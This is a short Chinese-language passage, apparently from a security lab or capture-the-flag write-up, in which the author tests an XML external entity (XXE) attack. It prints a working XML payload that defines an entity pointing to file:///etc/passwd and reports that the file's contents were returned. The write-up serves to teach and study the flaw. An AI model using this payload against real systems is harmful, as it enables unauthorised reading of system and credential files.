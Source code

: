 这是可行的，我可以看到预期的输出:

![](img/2d49ed3925d8e0a825eafc4a57bff730.png)

新实体攻击

接下来，我试着看看是否可以读取文件 */etc/passwd* 的内容:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Joe</author>
<com>&xxe;</com>
</comment>
```

这也是成功的，因为我可以看到 */etc/passwd* 文件的内容:
